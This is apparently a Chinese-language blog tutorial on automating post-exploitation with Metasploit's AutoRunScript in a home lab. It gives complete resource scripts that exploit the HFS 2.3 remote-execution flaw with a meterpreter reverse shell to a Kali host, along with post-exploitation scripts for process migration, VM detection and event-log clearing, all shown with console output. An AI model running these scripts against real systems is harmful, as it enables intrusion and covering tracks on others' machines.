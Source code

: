 ```yaml
---
layout: post
category: binghe-code-hack
title: 在Metasploit中使用AutoRunScript
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: 在Metasploit中使用AutoRunScript
lock: need
---
```


# 在Metasploit中使用AutoRunScript

Metasploit提供了强大的AutoRunScript工具，可以通过收入show advanced查看AutoRunScript的选项。它可以实现自动化的后渗透测试，只需执行一次就可以获得对目标的控制权限。我们可以通过输入set AutoRunScript [script-name]来设置AutoRunScript的选项，也可以在资源脚本中直接设置，后者一次性自动完成全部渗透操作和后渗透操作。通过使用multi_script和multi_console_command模块，AutoRunScript还可以一次性运行多个后渗透脚本。下面我们来进行实战：

攻击机 kali 192.168.175.128

靶机 WinXP 192.168.175.130

注意：这里的示例中在靶机上部署了HFS 2.3，以攻击HFS2.3的漏洞为例实施的。有关如何部署HFS2.3服务，请参考《[Metasploit实战二之——对威胁建模(附加搭建CVE:2014-6287漏洞环境)](https://blog.csdn.net/l1028386804/article/details/86567192)》。

### 使用AutoRunScript选项中的multiscript模块

#### 创建自动化后渗透脚本multi_script

脚本内容如下：

```
run post/windows/gather/checkvm
run post/windows/manage/migrate
```

这里，我们将脚本multi_script保存到/root/my_scripts目录下。

这个脚本主要用于后渗透测试，实现了checkvm(检查目标系统是否运行在虚拟环境的模块)和migrate(将攻击载荷迁移到安全进程的模块)模块自动化的后渗透脚本。

#### 创建渗透脚本resource_complete

```
use exploit/windows/http/rejetto_hfs_exec
set payload windows/meterpreter/reverse_tcp
set RHOST 192.168.175.130
set RPORT 8080
set LHOST 192.168.175.128
set LPORT 2222
set AutoRunScript multi_console_command -rc /root/my_scripts/multi_script
exploit
```

这个脚本同样保存到/root/my_scripts目录下

这个脚本设置了对HFS文件服务器进行渗透所必需的所有参数，并实现了攻击的自动化，也可以是使用multi_console_command对AutoRunScript进行设置，将multi_console_command设定为-rc，可以执行对个后渗透脚本。

#### 运行渗透脚本resource_complete

```
msfconsole
msf5 > resource /root/my_scripts/resource_complete
[*] Processing /root/my_scripts/resource_complete for ERB directives.
resource (/root/my_scripts/resource_complete)> use exploit/windows/http/rejetto_hfs_exec
resource (/root/my_scripts/resource_complete)> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
resource (/root/my_scripts/resource_complete)> set RHOST 192.168.175.130
RHOST => 192.168.175.130
resource (/root/my_scripts/resource_complete)> set RPORT 8080
RPORT => 8080
resource (/root/my_scripts/resource_complete)> set LHOST 192.168.175.128
LHOST => 192.168.175.128
resource (/root/my_scripts/resource_complete)> set LPORT 2222
LPORT => 2222
resource (/root/my_scripts/resource_complete)> set AutoRunScript multi_console_command -rc /root/my_scripts/multi_script
AutoRunScript => multi_console_command -rc /root/my_scripts/multi_script
resource (/root/my_scripts/resource_complete)> exploit

[*] Started reverse TCP handler on 192.168.175.128:2222 
[*] Using URL: http://0.0.0.0:8080/E9UzLCydhDL
[*] Local IP: http://192.168.175.128:8080/E9UzLCydhDL
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /E9UzLCydhDL
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 1 opened (192.168.175.128:2222 -> 192.168.175.130:1060) at 2019-01-26 10:16:09 +0800
[*] Session ID 1 (192.168.175.128:2222 -> 192.168.175.130:1060) processing AutoRunScript 'multi_console_command -rc /root/my_scripts/multi_script'
[*] Running Command List ...
[!] Tried to delete %TEMP%\xBDTumQie.vbs, unknown result
[*] Server stopped.

meterpreter >
[*] Checking if LIUYAZHUANG is a Virtual Machine .....
[+] This is a VMware Virtual Machine
[*] Running module against LIUYAZHUANG
[*] Current server process: qQbMLQjEENOQL.exe (1592)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 1380
[+] Successfully migrated to process 1380
```

我们看到，checkvm和migrate模块都已经成功执行，目标运行在VMWare上，控制程序也已经成功迁移到了1380进程上。

#### 使用AutoRunScript选项中的multiscript模块

可以使用multiscript模块创建一个后渗透脚本

#### 创建后渗透脚本multi_scr.rc

脚本内容如下:

```
checkvm
migrate -n explorer.exe
get_env
event_manager -i
```

这里，我们同样把这个脚本保存在/root/my_scripts目录下。

#### 创建渗透脚本resource_rc

具体内容如下：

```
use exploit/windows/http/rejetto_hfs_exec
set payload windows/meterpreter/reverse_tcp
set RHOST 192.168.175.130
set RPORT 8080
set LHOST 192.168.175.128
set LPORT 2222
set AutoRunScript multiscript -rc /root/my_script/multi_scr.rc
exploit
```

#### 运行渗透脚本

```
msf5 > resource /root/my_scripts/resource_rc
[*] Processing /root/my_scripts/resource_rc for ERB directives.
resource (/root/my_scripts/resource_rc)> use exploit/windows/http/rejetto_hfs_exec
resource (/root/my_scripts/resource_rc)> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
resource (/root/my_scripts/resource_rc)> set RHOST 192.168.175.130
RHOST => 192.168.175.130
resource (/root/my_scripts/resource_rc)> set RPORT 8080
RPORT => 8080
resource (/root/my_scripts/resource_rc)> set LHOST 192.168.175.128
LHOST => 192.168.175.128
resource (/root/my_scripts/resource_rc)> set LPORT 2222
LPORT => 2222
resource (/root/my_scripts/resource_rc)> set AutoRunScript multiscript -rc /root/my_script/multi_scr.rc
AutoRunScript => multiscript -rc /root/my_script/multi_scr.rc
resource (/root/my_scripts/resource_rc)> exploit

[*] Started reverse TCP handler on 192.168.175.128:2222 
[*] Using URL: http://0.0.0.0:8080/YfmEYmEV9x
[*] Local IP: http://192.168.175.128:8080/YfmEYmEV9x
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /YfmEYmEV9x
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 1 opened (192.168.175.128:2222 -> 192.168.175.130:1065) at 2019-01-27 11:50:34 +0800
[*] Session ID 1 (192.168.175.128:2222 -> 192.168.175.130:1065) processing AutoRunScript 'multiscript -rc /root/my_script/multi_scr.rc'
[!] Tried to delete %TEMP%\bMXpbLteZtoos.vbs, unknown result
[*] Server stopped.

meterpreter > 
```

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
